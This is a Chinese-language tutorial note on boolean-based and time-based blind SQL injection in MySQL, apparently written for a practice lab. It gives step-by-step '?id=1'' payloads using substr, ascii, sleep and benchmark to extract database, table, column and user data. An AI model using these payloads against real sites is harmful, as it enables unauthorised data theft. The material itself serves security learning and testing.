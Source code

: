 #### 布尔盲注

**&lt;u&gt;基于不同的返回页面判断数据库语言是否执行成功,从而跑出数据库内容&lt;/u&gt;**

##### 常用函数

1. substr(需要截取的东西，从哪开始，截取多少) 截取字符串
2. mid(需要截取的东西，从哪开始，截取多少) 截取字符串
3. left(string,n) 截取最左边的字符
4. right(string,n) 截取最右边的字符
5. ascii('a') 转换成ascii码
6. ord('b') 和ascii功能一样
7. char(97) 和ascii相反
8. length() 长度

##### 流程

1. 判断闭合方式?id=1' --+通过页面的you are in变化判断是否执行成功。
2. 获取数据库名字长度?id=1' and length(database())=8 --+
3. 获取当前数据库名每个字母 （依次改变N的值获取当前数据库每个字母，这个N是从1开始）?id=1' and ascii(substr(database(),N,1))=101--+
4. 获取总共有多少张表?id=1' and (select count(*) from information\_schema.tables where table\_schema=database())=4 --+*
5. 获取每个表的长度 （依次改变N的值，来获取每张表的长度 (limin N，1) N是从0开始）?id=1' and (select length(table\_name) from information\_schema.tables where table\_schema=database() limit N,1 )&gt;6--+\*
6. 获取每张表名字?id=1' and (select ascii(substr(table\_name,1,1)) from information\_schema.tables where table\_schema=database() limit 0,1 )=101--+\*
7. 获取列的个数?id=1' and (select count(\*) from information\_schema.columns where table\_schema=database() and table\_name='users')&gt;3--+
8. 获取每个列的长度?id=1' and (select length(column\_name) from information\_schema.columns where table\_schema=database() and table\_name='users' limit 0,1 )&gt;2--+
9. 获取列名?id=1' and (select ascii(substr(column\_name,1,1)) from information\_schema.columns where table\_schema=database() and table\_name='users' limit 0,1 )&gt;105--+
10. 获取数据长度?id=1' and (select length(username) from users limit 0,1)&gt;4--+
11. 获取数据?id=1' and (select ascii(substr(username,1,1)) from users limit 0,1)&gt;68--+

#### 时间盲注

&lt;u&gt;**盲注适用场景一般用于无法用布尔真假判断，也无法报错注入时使用**&lt;/u&gt;&lt;br&gt;  
&lt;br&gt;  
&lt;u&gt;**原理：利用if函数，执行判断，如果正确，直接返回(时间很短，网速有一定影响)，如果不正确，执行时间将延长，以上操作也可以反过来时间**&lt;/u&gt;

- 条件判断：if(condition,expr2,expr3) condition为true，返回expr2，否则返回expr3
- 延时函数：sleep（arg1）if（payload，sleep（3），1）#当sleep函数被过滤可以使用benchmark函数,还可以使用get\_lock方法盲注
- 函数benchmark（arg1，arg2）if(1=1,benchmark(30000000,encode("hello","123")),0); 如果测试语句正确，暂停3秒左右，受服务器的影响比较大

##### 流程

1. 通过sleep来确认闭合方式?id=1' and sleep(3) --+
2. 获取版本信息?id=1' and if(ascii(substr(version(),1,1))&gt;53,1,sleep(5))--+
3. 获取当前使用是数据库长度?id=1' and if(length(database())&gt;8,1,sleep(5)) --+
4. 获取当前使用数据库名?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),3)--+
5. 获取当前使用数据库表数量?id=1' and if((select count(table\_name) from information\_schema.tables where table\_schema=database())=4,sleep(3),3)--+
6. 获取每个表的长度?id=1' and if((select length(table\_name) from information\_schema.tables where table\_schema=database() limit 0,1)=8,sleep(5),1) --+
7. 获取每个表的表名?id=1' and if((select ascii(substr(table\_name,1,1)) from information\_schema.tables where table\_schema=database() limit 0,1)=114,sleep(5),1) --+
8. 获取表的列数?id=1' and if((select count(\*) from information\_schema.columns where table\_schema=database() and table\_name='emails')=2,sleep(5),1) --+
9. 获取列的长度?id=1' and if((select length(column\_name) from information\_schema.columns where table\_schema=database() and table\_name='emails' limit 0,1)=2,sleep(5),1) --+
10. 获取每个列的列名?id=1' and if((select ascii(substr(column\_name,1,1)) from information\_schema.columns where table\_schema=database() and table\_name='emails' limit 0,1)=105,sleep(5),1) --+
11. 获取数据长度?id=1' and if((select length(username) from users limit 0,1)&gt;4,1,sleep(5)) --+